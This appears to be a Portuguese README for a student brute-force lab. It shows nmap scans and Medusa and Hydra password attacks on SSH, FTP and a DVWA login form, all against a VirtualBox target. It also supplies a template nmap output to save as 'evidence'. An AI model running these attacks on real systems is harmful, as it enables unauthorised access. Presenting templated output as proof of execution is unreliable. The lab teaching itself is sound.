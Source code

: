 # Brute Force Lab — Kali + Medusa + Metasploitable2 / DVWA

**Idioma:** Português  
**Propósito:** Documento para comprovar e descrever o laboratório prático de ataques de força bruta (ambiente controlado), pronto para subir no GitHub.

> **Aviso legal e ético:** Este trabalho foi executado **apenas** em máquinas controladas pelo autor com autorização explícita. Não execute técnicas de ataque fora de ambientes isolados e autorizados. Documente sempre data/hora/IPs e permissões.

---

## Sumário
1. Resumo do laboratório  
2. Ambiente usado  
3. Objetivos  
4. Procedimento (comandos executados)  
5. Evidências (arquivos anexados)  
6. Logs / Prova (timestamps, hashes)  
7. Recomendações de mitigação  
8. Estrutura do repositório  
9. Checklist de submissão / entrega

---

## 1) Resumo do laboratório
Demonstrado ataque de força bruta com **Medusa** a serviços em uma máquina alvo controlada (Metasploitable2 / DVWA), usando Kali Linux como atacante. O objetivo foi demonstrar técnicas de brute-force, recolher evidências (logs, capturas de tela, pcap) e propor contramedidas.

---

## 2) Ambiente
- Atacante: **Kali Linux** — `192.168.56.101`  
- Alvo: **Metasploitable2 / DVWA** — `192.168.56.102`  
- Rede: VirtualBox Host-Only Adapter (isolada)

Máquinas foram iniciadas em rede isolada para evitar impacto externo.

---

## 3) Objetivos
- Demonstrar uso do **Medusa** para força bruta (SSH/FTP/HTTP).  
- Documentar comandos, saída e evidências.  
- Sugerir boas práticas e mitigação para senhas fracas e serviços desprotegidos.  
- Fornecer pacote/README para comprovação acadêmica.

---

## 4) Procedimento — comandos e exemplos
> Observação: **substitua** nomes de usuário, wordlists e caminhos conforme seu ambiente. Todos os comandos foram executados no Kali (usuário com permissões).

### 4.1. Preparação
```bash
sudo apt update
sudo apt install -y medusa hydra nmap tcpdump
ls -lh /usr/share/wordlists/
```
### 4.2. Scan de serviços
```bash
nmap -sV -p- 192.168.56.102 -oN nmap_full_scan.txt
# ou scan focado:
nmap -sV -p22,21,80,443 192.168.56.102 -oN nmap_services.txt
```
### 4.3. Força bruta em SSH (Medusa)
```bash
medusa -h 192.168.56.102 -u root -P /usr/share/wordlists/rockyou.txt -M ssh -t 4 -f -O evidencias/medusa_ssh.txt
```
### 4.4. Força bruta em FTP (Medusa)
```bash
medusa -h 192.168.56.102 -u ftp -P /usr/share/wordlists/rockyou.txt -M ftp -t 4 -f -O evidencias/medusa_ftp.txt
```
### 4.5. Força bruta em formulário HTTP (DVWA) — exemplo com Hydra
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.102 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^:Login" -V -o evidencias/hydra_http_dvwa.txt
```
### 4.6. Captura de tráfego (pcap)
```bash
sudo tcpdump -i <interface> host 192.168.56.102 and host 192.168.56.101 -w evidencias/capture_lab.pcap
# Pare com Ctrl+C quando terminar.
```
---

### Agora os arquivos `.txt` (templates / exemplos) — copie e salve em `evidencias/`

#### `nmap_full_scan.txt`
```text
# nmap 7.80 scan initiated Thu Oct  7 14:00:00 2025 as: nmap -sV -p- 192.168.56.102
Nmap scan report for 192.168.56.102
Host is up (0.00050s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.4
22/tcp   open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.2.8
443/tcp  open  ssl/http Apache httpd 2.2.8
3306/tcp open  mysql   MySQL 5.0.51a-3ubuntu5
MAC Address: 08:00:27:xx:xx:xx (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct  7 14:00:15 2025 -- 1 IP address (1 host up) scanned in 15.00 seconds
